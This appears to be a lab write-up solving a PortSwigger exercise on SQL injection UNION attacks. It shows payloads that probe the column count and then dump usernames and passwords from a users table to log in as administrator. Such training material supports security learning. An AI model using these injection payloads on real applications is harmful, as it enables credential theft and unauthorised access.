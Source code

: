 ## Lab Description: SQL injection UNION attack, retrieving data from other tables

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/881f3cef-4ad9-468b-aaa8-1a7e4c358540)

Solution:

Here, The database contains a different table called users, with columns called username and password.


``` SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT 'abc','def' --  ```

Since both the columns contain text data, we can retreive username and password from the users table of the database without any concatination method.

``` SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT username,password FROM users -- ```

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b8343270-117e-4a0b-b27e-38dc62f286b4)

![Screenshot 2024-01-27 220937](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b75285ff-204c-4718-8b6d-bc711d046783)

Now, We have the credentials of username and password and with that we can access it as administrator.


![Screenshot 2024-01-27 221402](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4e6211c9-9fae-4fee-ac28-c144d78a41b4)

